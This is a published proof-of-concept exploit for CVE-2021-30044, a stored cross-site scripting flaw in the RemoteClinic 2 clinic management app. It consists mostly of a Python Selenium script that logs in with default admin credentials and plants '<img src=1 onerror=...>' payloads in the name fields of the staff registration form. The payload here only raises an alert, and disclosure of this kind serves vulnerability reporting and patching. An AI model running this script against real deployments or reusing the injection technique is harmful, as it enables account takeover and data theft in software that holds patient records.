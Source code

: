 XSS
---

    # Exploit Title: RemoteClinic 2 - 'Multiple' Cross-Site Scripting (XSS)
    # Exploit Author: nu11secur1ty
    # Debug: g3ck0dr1v3r
    # Date: 04/21/2021
    # Vendor Homepage: https://remoteclinic.io/
    # Software Link: https://github.com/remoteclinic/RemoteClinic
    # CVE: CVE-2021-30044

    [+] Exploit Source:
    https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2021-30044

    [Exploit Program Code]

    #!/usr/bin/python3
    # Author: @nu11secur1ty
    # Debug: g3ck0dr1v3r
    # CVE-2021-30044

    from selenium import webdriver
    import time


    #enter the link to the website you want to automate login.
    website_link="http://localhost/RemoteClinic/login/"

    #enter your login username
    username="admin@domain.ext"

    #enter your login password
    password="remoteclinic"

    #enter the element for username input field
    element_for_username="user_id"
    #enter the element for password input field
    element_for_password="password"
    #enter the element for submit button
    element_for_submit="submit"

    # Dai brauzura aaa ta eba
    browser = webdriver.Chrome() #uncomment this line,for chrome users
    #browser = webdriver.Firefox() #uncomment this line,for chrome users
    #browser = webdriver.Safari() #for macOS users[for others use chrome vis
    chromedriver]

    # Otvarai da ne vlazam s kasata
    browser.get((website_link))

    # Run...
    try:
    username_element = browser.find_element_by_name(element_for_username)
    username_element.send_keys(username)
    password_element  = browser.find_element_by_name(element_for_password)
    password_element.send_keys(password)

    ### Login
    signInButton = browser.find_element_by_name(element_for_submit)
    signInButton.click()

    ### Exploit
    element_for_natrutvanie="submit"
    browser.get(("http://localhost/RemoteClinic/staff/register.php"))

    ### Inner text...
    browser.execute_script("document.querySelector('[name=\"first_name\"]').value
    = '<img src=1 onerror=alert(`Please_fix_it`)>'")
    browser.execute_script("document.querySelector('[name=\"last_name\"]').value
    = '<img src=1 onerror=alert(`Please_fix_it`)>'")
    browser.execute_script("document.querySelector('[name=\"userid\"]').value =
    'nu11secur1ty@gmail.com'")
    browser.execute_script("document.querySelector('[name=\"passkey\"]').value
    = 'password'")
    browser.execute_script("document.querySelector('[name=\"contact\"]').value
    = '123456789'")
    browser.execute_script("document.querySelector('[name=\"mobile\"]').value =
    '12345678910'")
    browser.execute_script("document.querySelector('[name=\"skype\"]').value =
    'nu11secur1ty'")
    browser.execute_script("document.querySelector('[name=\"address\"]').value
    = 'Kurec A 31'")
    browser.find_element_by_name('image').send_keys("C:\\Users\\nu11secur1ty\\Desktop\\CVE\\CVE-2021-30044\\nu11secur1ty.png")
    time.sleep(5)

    # Submit exploit
    signInButton = browser.find_element_by_name(element_for_natrutvanie)
    signInButton.click()

    # Maani sa i testwai posle
    time.sleep(1)
    browser.get(("http://localhost/RemoteClinic/login/signout.php"))
    browser.close()


    print("payload is deployed...\n")
    except Exception:

    #### This exception occurs if the element are not found in the webpage.
    print("Some error occured :(")

